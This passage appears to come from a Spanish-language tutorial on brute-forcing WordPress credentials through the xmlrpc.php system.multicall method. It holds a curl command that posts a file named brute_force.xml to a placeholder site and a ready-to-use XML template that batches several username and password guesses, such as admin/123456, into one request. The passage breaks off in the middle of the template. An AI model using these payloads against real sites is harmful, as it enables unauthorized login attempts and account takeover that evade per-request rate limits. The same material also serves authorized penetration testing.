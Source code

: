 📌 **Explicación:**

- Este XML envía **tres intentos** de autenticación en una sola petición.
- Se pueden agregar más combinaciones simplemente duplicando las secciones `<value>...</value>` con diferentes usuarios y contraseñas.

📌 **Uso con cURL:**  
Guárdalo como `brute_force.xml` y ejecútalo con:

```bash
curl -X POST -d @brute_force.xml https://ejemplo.com/xmlrpc.php
```

---

### **🔥 3. Plantilla XML para probar múltiples usuarios con múltiples contraseñas**

Si no conoces el usuario exacto, esta plantilla prueba varias combinaciones de usuarios y contraseñas.

```xml
<?xml version="1.0"?>
<methodCall>
  <methodName>system.multicall</methodName>
  <params>
    <param>
      <value>
        <array>
          <data>
            <value>
              <struct>
                <member>
                  <name>methodName</name>
                  <value><string>wp.getUsersBlogs</string></value>
                </member>
                <member>
                  <name>params</name>
                  <value>
                    <array>
                      <data>
                        <value>
                          <array>
                            <data>
                              <value><string>admin</string></value>
                              <value><string>password</string></value>
                            </data>
                          </array>
                        </value>
                        <value>
                          <array>
                            <data>
                              <value><string>admin</string></value>
                              <value><string>123456</string></value>
                            </data>
                          </array>
                        </value>
                        <value>
                          <array>
                            <data>
                              <value><string>user</string></value>
                              <value><string>user123</string></value>
                            </data>
                          </array>
                        </value>
                        <value>
```